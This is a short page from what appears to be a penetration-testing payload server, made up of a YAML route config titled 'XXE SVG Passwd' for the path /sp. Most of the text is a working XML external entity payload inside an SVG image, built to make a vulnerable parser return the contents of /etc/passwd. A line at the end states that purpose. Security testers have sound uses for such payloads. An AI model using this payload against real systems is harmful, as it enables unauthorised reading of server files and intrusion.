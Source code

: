 ```yaml
---
title: XXE SVG Passwd
description: Returns an SVG payload with XXE to get files
weight: 1
pattern: /sp$
is_final: true
data:
  headers:
    Content-Type: image/svg+xml
    body: |
      <?xml version="1.0" standalone="yes"?>
      <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
      <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
      <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
      </svg>

---
```



### /sp

attempts to get /etc/passwd
